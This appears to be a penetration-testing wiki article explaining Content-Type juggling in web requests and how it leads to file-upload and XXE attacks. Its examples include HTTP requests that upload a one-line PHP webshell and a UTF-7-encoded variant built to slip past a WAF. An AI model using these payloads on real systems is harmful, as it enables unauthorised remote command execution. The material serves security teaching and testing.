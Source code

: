 ```yaml
---
tags: ['Tag 1', 'Tag 2']
description: "Content-Type juggling exploits the lack of checking on the Content-Type header when submitting an HTTP request."
---
```


# Article 2

## Theory

**Content-Type juggling** exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../../web/inputs/file-inclusion/lfi-to-rce/file-upload.md) or [xxe-injection](content-type-juggling.md#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](content-type-juggling.md#examples)).

::hint{type="info"}
The `Content-Type` header is used to indicate the MIME type of the resource.

* In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
* In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.
::

::hint{type="warning"}
If the [XCTO (X-Content-Type-Options)](../../web/config/http-headers/#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.
::

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header **not** present ?
* Can the `Content-Type` header  be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`,  [XXE](xxe-injection.md) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

**One should not stick to this list and always try several Content-Type values.**

<details>

<summary class="summary">List of the most common Content-Type values</summary>

::codeScreen{title="Type application"}
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```
::

::codeScreen{title="Type audio"}
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
::

::codeScreen{title="Type image"}
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```
::

::codeScreen{title="Type multipart"}
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```
::

::codeScreen{title="Type text"}
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```
::

::codeScreen{title="Type video"}
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```
::

::codeScreen{title="Type vnd"}
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```
::

</details>

### Example attacks

<details>

<summary class="summary">PHP payload upload and RCE</summary>

Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain
(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php
 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

</details>

<details>

<summary class="summary">Bypass a WAF</summary>

Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](content-type-juggling.md#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "**charset juggling**" can be performed.

::codeScreen{title="Getting caught by the WAF"}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19
<?php system($_GET["cmd"]); ?>
```
::

::codeScreen{title="Bypassing the WAF"}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19
+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```
::

</details>

<details>

<summary class="summary">API attack, leading to XXE</summary>

In the following request, the application normally sends JSON content (`Content-Type: application/json`).&#x20;

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.&#x20;

<img src="../../.gitbook/assets/CT-JUGGLING-3.png" alt="Performing Content-Type juggling" data-size="original">

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](xxe-injection.md)).

<img src="../../.gitbook/assets/CT-JUGGLING-4.png" alt="Crafting a XXE payload to extract /etc/passwd" data-size="original">

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).

</details>

## Resources

::embedUrl{url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2"}
::

::embedUrl{url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2"}
Content-Type from JSON to XEE
::

::embedUrl{url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses"}
WAF and protections bypasses
::

::embedUrl{url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type"}
::
